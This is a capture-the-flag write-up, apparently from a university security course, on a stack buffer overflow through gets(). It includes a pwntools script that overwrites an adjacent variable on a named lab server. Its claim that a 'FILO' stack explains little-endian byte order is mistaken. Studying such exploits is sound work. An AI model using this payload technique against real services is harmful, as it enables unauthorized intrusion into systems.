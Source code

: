 # Challenge `Match an Exact Value` writeup

- Vulnerability:
  - Buffer Overflow
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port `23152`
- Impact:
  - Allows attacker to alter local variable

## Steps to reproduce

1. The `buffer` and `test` variables are reserved consecutively
2. By writing more that 64 characters into `buffer`, the `test` variable is affected, after the `gets` function.
3. Since the stack is a `first-in-last-out (FILO)` structure, we need to write the bytes in `little-endian`

The code used was:

```py
from pwn import *

session = remote("mustard.stt.rnl.tecnico.ulisboa.pt", "23152", timeout=1000)
session.recvuntil('?')
session.send(b'1'*64 + b'\x64\x63\x62\x61')
print(session.recvall())
```